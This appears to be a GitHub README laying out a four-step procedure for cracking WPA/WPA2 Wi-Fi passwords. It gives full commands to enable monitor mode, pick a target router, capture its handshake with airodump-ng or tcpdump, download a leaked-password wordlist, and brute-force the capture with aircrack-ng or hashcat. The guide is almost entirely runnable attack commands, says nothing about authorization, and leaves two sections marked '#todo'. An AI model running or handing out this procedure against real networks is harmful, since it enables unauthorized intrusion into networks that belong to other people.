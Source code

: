 There are four steps to crack a WPA/WPA2 Wi-Fi network.  

**[(1) Monitor Mode ](#monitor-mode)**<br>
**[(2) Target Router](#target-router)**<br>
**[(3) Capture Handshake](#capture-handshake)**<br>
**[(4) Crack Password](#crack-password)**<br>



For an alternative guide see [brannondorsey's](https://github.com/brannondorsey/wifi-cracking/blob/master/README.md).

## (1) Monitor Mode 

List monitor mode compliant interfaces

```
airmon-ng
```

Place the interface in monitor mode

```
airmon-ng start wlan0
```

## (2) Target Router
Using monitor mode we listen for nearby wireless routers.  Make note of your target router's `channel`, `bssid`, and `interface`.

### * Airodump-ng (linux)
Listen to nearby routers

```
airodump-ng wlan0mon
```


### * Airport (Mac OSX)

"Install" Airport utility

```
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport
```

Listen to nearby routers

```
sudo airport -s
```

## (3) Capture Handshake
If you've used airodump-ng above continue using airodump-ng below.  Otherwise follow the wireshark section.

We monitor the router network and wait until we capture a successful handshake.

### * Airodump-ng

Replace `-c` and `-bssid` values accordingly

Capture beacon frames

```
airodump-ng -c 3 --bssid FF:FF:FF:FF:FF:FF -w capture wlan0mon
```

### * Wireshark

Replace `BSSID`, `IFACE`, and `CHANNEL` values accordingly

Disassociate airport

```sudo airport -z```

Set the channel

```sudo airport -c$CHANNEL```

Capture beacon frames

```sudo tcpdump "type mgt subtype beacon and ether src $BSSID" -I -c 1 -i $IFACE -w beacon.cap```

Wait for handshakes

```sudo tcpdump "ether proto 0x888e and ether host $BSSID" -I -U -vvv -i $IFACE -w handshake.cap```

Merge captured files 

```mergecap -a -F pcap -w capture.cap beacon.cap handshake.cap```

upload both files and images (#todo)

## (4) Crack Password
If you don't have a wordlist, download one.  I'm using a wordlist from [berzerk0's Probable Wordlists](https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords/WPA-Length)
```wget https://raw.githubusercontent.com/berzerk0/Probable-Wordlists/master/Real-Passwords/WPA-Length/Top204Thousand-WPA-probable-v2.txt```

### * Aircrack-ng
```
aircrack-ng -a2 -b FF:FF:FF:FF:FF:FF -w Top204Thousand-WPA-probable-v2.txt capture.cap
```

### * Hashcat
If you have a .cap file you'll need [hashcat-utils](https://github.com/hashcat/hashcat-utils/releases) to transform the .cap to .hccapx.

```
cap2hccapx capture.cap capture.hccapx
```


With your .hccapx you're ready to crack with hashcat.  Run [hashcat](https://hashcat.net/hashcat/).

```
$ ./hashcat64.exe -m 2500 capture.hccapx Top204Thousand-WPA-probable-v2.txt
```

upload both files and images (#todo)